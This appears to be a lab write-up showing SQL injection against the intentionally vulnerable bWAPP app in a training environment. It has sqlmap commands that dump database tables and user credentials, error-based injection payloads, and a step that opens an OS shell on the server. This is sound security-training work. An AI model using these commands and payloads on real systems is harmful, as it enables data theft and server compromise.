# SQL injection
In this lab environment, the user is going to get access to a Kali GUI instance. The bWAPP web application can be accessed using the tools installed on Kali on http://demo.ine.local

Objective: Perform SQL Injection attack on the web application with SQLMap!

# 1. Find open port
Scan the machine for open port: $nmap demo.ine.local

Its two open port 80 for http and 3306 for mysql.

# 2. Browse the website
After we browse to the website:

Log inn to the website with the given bWAPP login information:
- Username: bee
- Password: bug

# 3. Try out SQL injection (GET/search)
When you type in hello and click search. THe searchbar will include the input "hello".


# 4. Fire up burp with foxyproxy
Search for "hello" again, but this time intercept with burp.

Take the cookie from the intercept and use it with sqlmap.

# 5. SqlMap with cookie
Run sqlmap with this command: $sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title

Outcome says that title is injectable.

# 6. Send the same request to repeater for more investigation
Try out the different payload.
Request:

Response:


# 7. Dump database
Use the same command with -dbs: $sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title -dbs
The outcome:


# 8. Last steps to get whole database
Dump tables: $sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs -D bWAPP --tables


Dump columns: $sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs -D bWAPP --tables -T users --columns


Dumps users variable: $sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs -D bWAPP --tables -T users -C admin,password,email --dump


# 9. Change over to SQL injection (POST/SEARCH)
1. Turn on intercept at burp after change bug.
2. Search for "hello"
3. Intercept with burp and choose action then copy to file and save as request.
4. Run sqlmap with this file: $sqlmap -r request -p title

# 10. Back to burp
Send the request from burp over to Repeater.
Try out one of the payload: $title=Hello' AND (SELECT 9239 FROM(SELECT COUNT(*),CONCAT(0x717a787071,(SELECT (ELT(9239=9239,1))),0x7162627171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'avHv'='avHv&action=search

We will get a duplicate error.
Change out the pass function with version function:
- title=Hello' AND (SELECT 9239 FROM(SELECT COUNT(*),CONCAT(version(),(SELECT (ELT(9239=9239,1))),0x7162627171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'avHv'='avHv&action=search

With the function we can dump the os version of the database.

# 11. Get OS shell
Run sqlmap with os shell tag: $sqlmap -r request -p title --os-shell

Choose the standard choice. After the scan you will get os-shell.